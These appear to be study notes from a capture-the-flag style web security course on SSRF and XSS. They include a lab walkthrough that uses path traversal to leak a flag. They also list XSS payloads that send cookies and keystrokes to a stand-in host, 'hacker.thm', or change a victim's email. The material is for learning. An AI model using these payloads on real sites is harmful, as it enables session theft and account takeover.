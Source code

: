 ## Server-Side Request Forgery (SSRF)

- Types of SSRF:
    - Normal
    - Blind: no information returned to attacker

- How to spot SSRF: its url has hidden field in a form `server=https...`, `api`, `/forms/contact` => [request.bin](requestbin.com)
- SSRF Defense:
    * Deny List
    * Allow List
    * Open Redirect

Writeup: when choosing a new avatar, we remark that updating the avatar give us
a base64 encoded string. We want to use SSRF to gain access


```
url: https://website.thm/item/2?server=server.website.thm/flag?id=9&x; FLAG: THM{SSRF_MASTER}

>>> change value to 
<div class="avatar-image" style="background-image: url('/assets/avatars/6.png')"></div>
<input type="radio" name="avatar" value="assets/avatars/6.png">

<input type="radio" name="avatar" value="x/../private">

which gives

<div class="avatar-image" style="background-image: url(data:image/png;base64,VEhNe1lPVV9XT1JLRURfT1VUX1RIRV9TU1JGfQ==)"></div>

>>> echo "VEhNe1lPVV9XT1JLRURfT1VUX1RIRV9TU1JGfQ" | base64 -d 
THM{YOU_WORKED_OUT_THE_SSRF}
```

## Cross-site scripting (XSS)

Types of XSS:
- reflected xss
    * testing reflected XSS in (1) url file path (2) query string
- stored xss: steal user's cookie
    * comments, website listing
- DOM XSS: Document Object Model
    * unsafe function: `window.location.x`, `eval()`

- Executing Payload on target computer
    * POC: `<script>alert('XSS');</script>`
    * stealing a cookie: `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
    * key logger: `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
    * logic: `<script>user.changeEmail('attacker@hacker.thm');</script>`
- Blind XSS: http request [xss hunter](https://xsshunter.com/#/)
